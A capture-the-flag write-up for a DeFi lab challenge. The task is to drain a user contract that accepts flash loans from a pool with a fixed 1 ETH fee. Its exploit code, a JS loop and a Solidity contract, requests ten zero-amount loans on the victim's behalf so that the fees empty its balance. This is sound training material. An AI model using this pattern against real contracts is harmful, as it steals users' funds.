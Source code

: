 > There’s a pool with 1000 ETH in balance, offering flash loans.
> It has a fixed fee of 1 ETH.

> A user has deployed a contract with 10 ETH in balance.
> It’s capable of interacting with the pool and receiving flash loans of ETH.

> Take all ETH out of the user’s contract.
> If possible, in a single transaction.

## For Fee T

We are not expected to transfer the ETH to our own wallet though:

```js
expect(
    await ethers.provider.getBalance(receiver.address)
).to.be.equal(0);
expect(
    await ethers.provider.getBalance(pool.address)
).to.be.equal(ETHER_IN_POOL + ETHER_IN_RECEIVER);
```

We cannot impersonate the pool, but we can still request loans for the receiver!

```js
for (let i = 0; i < 10; i++) {
    await pool.connect(player).flashLoan(receiver.address, ETH, 0, '0x');}
```

And it can be wrapped in a contract to execute it all in a single transaction:

```solidity
contract ForFee {

    address private _pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor(address pool) {
        _pool = pool;
    }

    function t(address target) external {
        for (uint8 i=0; i < 10; i++) {
            IERC3156FlashLender(_pool).flashLoan(IERC3156FlashBorrower(target), ETH, 0, "");
        }
    }
}
```

Done!

```js
console.log(await ethers.provider.getBalance(receiver.address)); // 0
```
